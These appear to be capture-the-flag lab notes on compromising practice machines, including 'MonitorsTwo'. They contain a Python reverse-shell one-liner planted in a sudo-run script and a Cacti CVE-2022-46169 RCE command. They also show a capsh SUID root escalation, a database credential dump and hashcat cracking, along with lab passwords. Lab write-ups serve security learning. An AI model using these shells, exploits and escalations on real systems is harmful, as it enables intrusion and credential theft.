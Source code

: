 * SSH connect
  * ssh svc@10.10.11.208
    * PW: jh1usoih2bkjaspwe92
  * we can edit the python script file
    * ![](https://hackmd.io/_uploads/SyKJVFIqn.png)
* PE
  * [exploit](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/python-privilege-escalation/)
    * `import socket,os,pty;s=socket.socket();s.connect(("<local-ip>",<port>));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")`
  * cd
    * `nano full-checkup.sh`
      * ![](https://hackmd.io/_uploads/HyyBHKLq3.png)

```
#!/usr/bin/python3
import socket,os,pty;s=socket.socket();s.connect(("10.10.14.12",1234));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")
```

* `chmod +x full-checkup.sh`
  * LOCAL machine: `nc -nlvp <port>`
  * `sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup`

![](https://hackmd.io/_uploads/S13UdFU9h.png)

## MonitorsTwo

1. Reco
   * `sudo nmap -sVC 10.10.11.211 -Pn`
   * website on 10.10.11.211
2. Weaponisation

* running Cacti v1.2.22 - [VULN](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22) - exploit allows through an RCE to obtain RS

3. Exploitation

* `nc -nlvp <port>`
* `python3 CVE-2022-46169.py -u http://<MACHINE_IP> --LHOST=<LOCAL_IP> --LPORT=<PORT>`
* we are inside www-data
  * cd
  * ls -la
    * there is an "entrypoint.sh" file
      * cat entrypoint.sh ![](https://hackmd.io/_uploads/H1H3v98qh.png)
        * MySQL credentials
  * cd /var/www/html
    * cat cacti.sql
      * login credentials ![](https://hackmd.io/_uploads/ryqNccI92.png)
        * admin, guest
          * but not much helpful
  * there is "linpeas.sh" file
    * after run it shows that /sbin/capsh is vuln
      * [VULN](https://gtfobins.github.io/gtfobins/capsh/#suid)
        * go to the /sbin folder
          * `./capsh --gid=0 --uid=0 --`
          * `mysql — host-db — user=root cacti -e “SELECT * FROM user_auth”`
            * user marcus with hash PW
              * crack PW with john or hashcat
              * `hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt --sho`
                * marcus:funkymonkey
